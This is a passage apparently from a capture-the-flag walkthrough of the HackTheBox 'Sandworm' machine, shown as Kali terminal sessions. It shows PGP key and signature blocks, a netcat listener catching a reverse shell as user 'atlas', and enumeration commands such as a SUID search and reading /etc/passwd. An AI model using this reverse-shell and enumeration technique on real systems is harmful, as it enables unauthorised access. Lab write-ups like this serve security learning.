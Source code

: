 ```shell
IQR6H2jw7OgoZYnueVi/AbxVjsqI0wUCZUZaowIbDAUJA8JnAAAKCRC/AbxVjsqI
0+dHC/4lamfT17hMrYy/sfFZtS27wmMhWK1OuZEQSr8vD3Ap1sRCMmiOlG8AT/yP
xcPNaxNM/d3Z/brYq2/h/Id3QQzBSX9ybZtb/Jf66zWl7Aw4nqwNlUAaOflZUq4C
oHEQgGKfwAXIeolj0xuK81tTKVTmfdgjr50NHsT+57vObz0GwZug8dHugQEb1Wbl
buLBJ7EGwAJ9BR31GqmrgYbNTO8sgMbyA9POW/9IAB4N4tgwUCmW2BrERe6LtiWI
G63EKqzFoNvsC6CVSibp2D1vES+7EfzsNtKfT/vGqqyIn9wzuXhXmvFgZcnPlbt+
dVTRKBIoh+UNuwpf+VUogLfwIqnSTj+1sIRf77UbQWpUivZkCvKDZP43LjgP6GMO
gu1BLflav6TNJ3IzUMwIk6Ijws+l60iESFCZDuFmzEaOZf+WTm5o0qJfTPXyVDQV
c5t0f9r8ZB8w81ZthCEmVhfAFa4kmvwzWJTSCvy4cI2H//EzYE/UGVOtIURs2Tae
fUHsoOo=
=0lkw
-----END PGP PUBLIC KEY BLOCK-----
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ cat example.txt.asc 
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512


CURIOSITY LOVES HACKING THINGS!

-----BEGIN PGP SIGNATURE-----

iQHLBAEBCgA1FiEEeh9o8OzoKGWJ7nlYvwG8VY7KiNMFAmVGWu8XHGN1cmlvc2l0
eUBoYWNrc2Zvci5mdW4ACgkQvwG8VY7KiNOy6QwAkOVTPmbLfdy7rOLcTZL9gkcP
LlRkAmpWYsXGikVNjWezFMGD06MfXD5E84fOFIn9i9xQmHRKA1Wlx1EHZArSCv6x
QVINZPtYmFX2ltzDGHLWSI7Vlg1w7SLOpt2x3uETrdcLVvkvhmHpMGuX6u0go7Fg
orGd+Te7H3VzRxyjlRW+fxvCs9gY6nsSbkUBMIzA2PQOnTgHiTVJoRBd36Y3dv/L
vGLmYJfryTxDukEdWUh3XS31RbIMj0YNVfsqfIBLFUaOAfQbz+T0uTHECT5otKhV
ahXOqToPSynasXm/Sv61xl322Xr4jEazuMr7gOxSm+3TVcY4+neOi1DJx1oXm4s6
g+uMAY+MuP3ydJPvJatrVYGDEITMDsUPguM2KTHQWSI3F46OaRfuE562uMIyxE9r
rQrvJal7ekIMsgtJvKyP/AsHtWeZybQMwRY+JZ7aglZv8NidiUnUUC4Ho7m6b5VZ
RE0K4LisEOIntgEoiGep4IvXLQnPJ2+80zQxat6M
=wWeN
-----END PGP SIGNATURE-----

```

```shell
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.218] 53416
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ 
```

We got a shell back as `atlas`.

```shell
atlas@sandworm:/var/www/html/SSA$ sudo -l
Could not find command-not-found database. Run 'sudo apt update' to populate it.
sudo: command not found
atlas@sandworm:/var/www/html/SSA$ find / -type f -perm -4000 2>/dev/null
atlas@sandworm:/var/www/html/SSA$ cat /etc/passwd | grep root
Could not find command-not-found database. Run 'sudo apt update' to populate it.
grep: command not found
atlas@sandworm:/var/www/html/SSA$ cat /etc/passwd | more
Could not find command-not-found database. Run 'sudo apt update' to populate it.
more: command not found      
atlas@sandworm:/var/www/html/SSA$ cat /etc/passwd | less
Could not find command-not-found database. Run 'sudo apt update' to populate it.
less: command not found
```